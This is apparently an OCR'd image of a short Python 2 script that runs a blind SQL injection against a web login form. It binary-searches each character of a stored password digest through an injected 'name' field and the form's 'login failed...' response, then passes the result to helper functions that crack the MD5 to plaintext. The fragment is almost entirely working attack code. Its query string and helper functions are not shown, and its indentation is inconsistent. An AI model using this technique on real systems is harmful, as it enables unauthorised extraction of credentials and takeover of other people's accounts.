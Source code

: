 ````

digest=''
for i in range(13):
	low, up = 0x30, 0x7a
	while low < up:
		div = (low + up) / 2
        	data = urllib.urlencode({'name':query % (i+1,user,div),'password':' '})
                r = urllib.urlopen(url, data).read()
        	if 'login failed...' in r:
			low = div + 1
		else:
			up  = div

	digest += chr(low)
	print "%02d:%s" % (i+1,digest)

print "\nuser\t: "+user+"\ndigest\t: "+digest

salt = digest[0:2]
md5_head = decrypt('',8)
print "md5\t: "+md5_head

plain = md5_plain(md5_head)
print "plain\t: "+str(plain)
````
